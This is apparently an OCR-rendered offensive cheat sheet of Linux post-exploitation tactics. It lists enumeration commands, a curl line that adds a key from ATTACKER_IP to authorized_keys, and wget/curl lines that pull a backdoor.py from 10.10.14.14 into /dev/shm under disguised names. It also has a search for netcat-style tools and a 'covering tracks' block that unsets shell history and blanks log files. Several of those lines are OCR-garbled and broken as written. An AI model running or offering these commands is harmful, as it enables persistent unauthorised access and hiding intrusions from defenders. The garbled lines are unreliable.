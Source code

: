 # Linux TTPs

## System Enumeration / Post Exploitation

```sh
id
w
who -a
last -a
ps -ef
df -h
uname -a
mount
cat /etc/issue
cat /etc/*-release
cat /etc/release
cat /proc/version

# Add public key to authorized keys
curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Download program in RAM
wget 10.10.14.14:8000/backdoor.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/backdoor.py -P /dev/shm
curl 10.10.14.14:8000/backdoor.py -o /dev/shm/nothing_special.py
```

Search for useful binaries:

```sh
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```

## Linux Miscellaneous Commands / Covering Tracks

```bash
chattr (+/-)i file
unset HISTFILE
unset HISTFILESIZE
unset HISTSIZE
TERM=vt100
export TERM
echo "" /var/log/auth.log 
echo '''' -/.bash history
kill -9 $$
ln /dev/null -/.bash_history -sf
```

## Efficient Linux CLI Navigation
